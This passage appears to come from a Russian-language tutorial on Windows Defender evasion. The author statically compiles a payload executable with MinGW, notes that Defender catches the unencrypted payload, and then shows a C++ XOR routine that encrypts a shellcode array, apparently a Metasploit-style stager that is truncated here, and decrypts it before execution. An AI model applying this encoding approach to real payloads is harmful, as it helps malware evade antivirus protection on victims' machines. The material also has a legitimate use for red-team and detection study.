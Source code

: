 Запустил и обнаружил следующее:

![](https://habrastorage.org/r/w1560/getpro/habr/upload_files/c84/250/039/c84250039fcf2c36d34b10bd21aa025e.png)

Как видно, ошибка связана отсутствием libstdc++-6.dll. Починить это можно путем прямой установки нужных компонент. Но можно собрать файл заново, используя "статическую линковку" (внедрение необходимых зависимостей в файл). Безусловно, при таком подходе вес файла станет больше, но, зато будет всё работать.

Для этого, к прошлой команде добавил флаг `-static`

```
x86_64-w64-mingw32-g++ -static -o test.exe test.cpp
```

![](https://habrastorage.org/r/w1560/getpro/habr/upload_files/aaf/0ce/3f4/aaf0ce3f4314b117279d6eba048d3787.jpeg)

Запустил файл:

![](https://habrastorage.org/r/w1560/getpro/habr/upload_files/818/c43/2cf/818c432cff65ab8afae2b4d045180c56.png)

![](https://habrastorage.org/r/w1560/getpro/habr/upload_files/0b8/6ed/295/0b86ed295e5eaca69d636db374659a3f.png)

### Выявление недостатка работы АВ

В работоспособности исполняемого файла убедился. А теперь попробовал запустить файл с активированной защитой на хосте.

![](https://habrastorage.org/r/w1560/getpro/habr/upload_files/97f/9a1/617/97f9a161700cd5c5bdc19137e72e8fb3.png)

> Поскольку я использовал стандартную нагрузку без шифрования, Defender с легкостью обнаружил ВПО.

![](https://habrastorage.org/r/w1560/getpro/habr/upload_files/6c3/0dd/488/6c30dd4884a3294d8b08fb2cc67214a1.png)

### Шифрование нагрузки

**XOR**

Стандарт кодирования- это XOR (_исключающее или_).

Реализация в коде:

``` c++
void encryptdecrypt(unsigned char* shellcode, size_t size, unsigned char key) {
  for (size_t i = 0; i < size; i++) {
    shellcode[i] ^= key;
  }
}
```

``` c++
unsigned char originalShellcode[] = { 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x00,...,0x89,0xda,0xff,0xd5 };
size_t shellcodeSize = sizeof(originalShellcode);
unsigned char key = 0x16; // Ключ для XOR-шифрования
encryptdecrypt(originalShellcode, shellcodeSize, key);// Шифрование нагрузки
...// Расшифрование нагрузки перед выполнением
encryptdecrypt(static_cast<unsigned char>(execMemory),
shellcodeSize, key);
```
